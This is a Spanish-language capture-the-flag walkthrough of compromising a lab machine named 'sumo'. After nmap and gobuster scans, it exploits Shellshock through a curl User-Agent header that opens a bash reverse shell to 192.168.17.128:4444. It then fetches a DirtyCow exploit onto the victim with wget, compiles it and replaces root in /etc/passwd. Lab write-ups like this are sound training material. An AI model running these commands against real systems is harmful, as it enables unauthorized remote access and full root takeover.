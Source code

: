 - Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa, tuve problemas con herramientas como arp-scan o  netdiscover, así que me cree un [script](https://github.com/JoseVazquez101/My-scr1pt5/blob/main/hostscan.sh) para escanear mi red local:
- También he decidido añadir una resolución DNS local con el siguiente comando:
  ~~~bash
  echo '192.168.17.135  sumo.vh' >> /etc/hosts
  ~~~
- Si todo funciona, llegaría la hora de realizar el escaneo con nmap, los parametros que suelo utilizar son los siguientes:

  ~~~bash 
  sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV sumo.vh
  ~~~

- Y vemos que hay un servicio http ejecutándose en el equipo objetivo:

![[Pasted image 20231111201246.png]]
![[Pasted image 20231111201504.png]]
- Con esto en mente, podemos realizar una enumeración de directorios de la siguiente manera:
~~~ bash
gobuster dir -u http://sumo.vh -w /usr/share/wordlists/dirb/big.txt -t 20 --add-slash --no-error
~~~

![[Pasted image 20231111201620.png]]
- A simple vista podríamos pensar que no existe nada fuera de lugar, pero para los ojos mas experimentados, la ruta **/cgi-bin** resulta llamativa, pues podríamos intentar enumerarla a ver si podemos explotar un posible [ShellShock](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)
- Enumeramos http://sumo.vh/cgi-bin/ y vemos algo interesante:
  ![[Pasted image 20231111202059.png]]
  - Intentaremos ganar acceso a través de un header malicioso con Curl, que incluirá un reverse shell, esto de la siguiente manera:
  
~~~ bash 
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.17.128/4444 0>&1' http://sumo.vh/cgi-bin/test.sh
~~~

![[Pasted image 20231111202501.png]]
- Y estamos dentro :D

***
<h3>PrivEsc</h3>
- Al entrar, podemos comprobar que somos www-data, por lo que tendremos que enumerar de manera bastante detallada los vectores para escalar privilegios:
  ![[Pasted image 20231111202805.png]]
  - Hacemos un tratamiento de TTY de la siguiente forma para mas comodidad (opcional):
~~~ bash
script /dev/null -c bash
^Z
#Dejamos nuestra sesión en segundo plano
stty raw -echo; fg
#Nuestro tecleo será invisible, reiniciamos la xterm de igual manera
reset xterm
#Nos aparecerá un mensaje
export TERM=xterm
export SHELL=bash
~~~

- Después de enumerar por distintos vectores de ataque, me decidí centrar en algo que me llamó la atención, la versión de kernel parecía antigua, al ser una 3.2.0-23-generic:
  ![[Pasted image 20231111210152.png]]
  - Si buscamos en Searchsploit por kernel 3.2 podremos encontrar algunos exploits, pero los mas interesantes son los de DirtyCow:
    ![[Pasted image 20231111210738.png]]
- Vemos que están basados en Race Condition, elegiremos el que está enfocado en PrivEsc (linux/local/40839.c)
- Nos pasamos el script de la siguiente manera al directorio actual:
  ~~~ bash
  searchsploit -m 40839.c
  ~~~

- La maquina victima tiene gcc, así que podemos compilarlo desde ahí, por lo que montamos un servidor http desde nuestro lado y lo descargamos con wget:
	- En mi maquina:
	  ~~~ bash
	  python3 -m http.server 1234
	  ~~~
	  - En la maquina victima:
	  ~~~ bash
	  cd /tmp
	  wget http://192.168.17.128:1234/40839.c
	  gcc -pthread 40839.c -o dirty.o -lcrypt
	  ~~~
- Tuve algunos problemas con el binario de gcc en la maquina, así que tuve que mover mi binario de gcc con el servidor de python y cambiar la PATH para que buscase en mi directorio, por si a alguien mas le sucede, lo cambié así:
  - En mi maquina:
~~~ bash
cd /usr/bin
python3 -m http.server 1234
~~~
 - En la maquina victima:
~~~ bash
wget http://192.168.17.128:1234/gcc
export PATH=/tmp:$PATH 
~~~

- Ahora ejecutamos el binario compilado y asignaremos una contraseña, en pocas palabras el código erradica al ussuario root y lo sustituye por otro con una uid 0, modificando con este permiso el archivo de /etc/passwd y asignando una contraseña conocida:
  - Y con esto seremos root :D
  ![[Pasted image 20231111220347.png]]
  ![[Pasted image 20231111234554.png]]
  